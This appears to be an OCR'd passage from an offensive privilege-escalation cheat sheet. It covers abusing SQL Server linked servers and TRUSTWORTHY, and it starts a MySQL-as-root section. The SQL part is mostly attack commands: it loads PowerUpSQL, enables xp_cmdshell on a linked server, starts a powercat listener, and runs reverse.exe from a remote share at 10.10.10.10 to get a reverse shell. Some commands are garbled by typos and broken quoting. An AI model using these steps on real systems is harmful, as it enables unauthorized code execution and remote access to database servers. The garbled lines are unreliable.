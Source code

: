 <a name="escalate-with-trustworthy-in-sql-server"></a>
# Escalate with TRUSTWORTHY in SQL Server

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abusing Capabilities

Methods:

1\. . .\\PowerUpSQL.ps1

2\. Get-SQLInstanceLocal -Verbose

3\. (Get-SQLServerLinkCrawl -Verbos -Instance \"10.10.10.10\" -Query
\'select \* from master..sysservers\').customer.query

4\.

USE \"master\";

SELECT \*, SCHEMA_NAME(\"schema_id\") AS \'schema\' FROM
\"master\".\"sys\".\"objects\" WHERE \"type\" IN (\'P\', \'U\', \'V\',
\'TR\', \'FN\', \'TF, \'IF\');

execute(\'sp_configure \"xp_cmdshell\",1;RECONFIGURE\') at
\"\<DOMAIN\>\\\<DATABASE NAME\>\"

5\. powershell -ep bypass

6\. Import-Module .\\powercat.ps1

7\. powercat -l -v -p 443 -t 10000

8\.

SELECT \*, SCHEMA_NAME(\"schema_id\") AS \'schema\' FROM
\"master\".\"sys\".\"objects\" WHERE \"type\" IN (\'P\', \'U\', \'V\',
\'TR\', \'FN\', \'TF, \'IF\');

execute(\'sp_configure \"xp_cmdshell\",1;RECONFIGURE\') at
\"\<DOMAIN\>\\\<DATABASE NAME\>\"

execute(\'exec master..xp_cmdshell \"\\\\10.10.10.10\\reverse.exe\"\')
at \"\<DOMAIN\>\\\<DATABASE NAME\>\"

<a name="abusing-mysql-run-as-root"></a>
# Abusing Mysql run as root

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abusing Services
